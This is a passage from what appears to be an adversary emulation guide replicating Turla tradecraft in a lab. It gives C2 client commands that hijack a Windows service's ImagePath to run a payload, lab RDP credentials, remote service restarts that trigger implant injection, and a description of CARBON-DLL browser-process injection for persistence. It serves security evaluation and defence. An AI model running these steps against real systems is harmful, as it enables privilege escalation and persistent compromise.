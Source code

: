 ```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg add "HKLM\system\currentcontrolset\services\ViperVPNSvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c %TEMP%\mxs_installer.exe" /f'
```

:arrow_right: Wait 1 minute before switching to your RDP session to `hobgoblin
(10.20.20.102)`. Minimize (do not close) the `hobgoblin (10.20.20.102)` RDP
window.

:arrow_right: RDP into `bannik (10.20.10.9)`, as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows.

* Open up an administrative Powershell session and run the following commands to remotely restart the service:

```powershell
sc.exe \\hobgoblin stop ViperVPNSvc
sc.exe \\hobgoblin start ViperVPNSvc
```
ℹ️ Starting the ViperVPN service should take at least 30 seconds and eventually
result in an error `[SC] StartService FAILED 1053`. The EPIC injector will wait
an additional 2 minutes before performing injection. If the `[SC] StartService
FAILED 1053` error occurs in less than 10 seconds and/or you don't receive a
new session, contact your Evals lead.

* Wait 1 minute and then :o: sign out of your RDP session to `bannik (10.20.10.9)` as `Frieda`

:arrow_right: Switch to your Kali attack station and confirm that a new elevated implant has registered.

### :moyai: Source Code

* EPIC
  * Execute commands [ExecCmd](epic.cpp#L47-L71)
  * Write results to log file [WriteResults](epic.cpp#L311-L345)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>

<br>

## Step 4 - Persistence

:microphone: `Voice Track:`

Step 4 emulates Turla deploying and installing CARBON-DLL as a second stage
malware onto Gunter's workstation in order to maintain persistence. CARBON-DLL,
a variant of CARBON relying on DLLs and asymmetric encryption, will inject an auxiliary
communications module DLL into an existing browser process on Gunter's workstation
to establish C2 communications via a redirector using HTTP requests. Once this communication
channel is created, the malware will run a few discovery commands on Gunter’s
device.
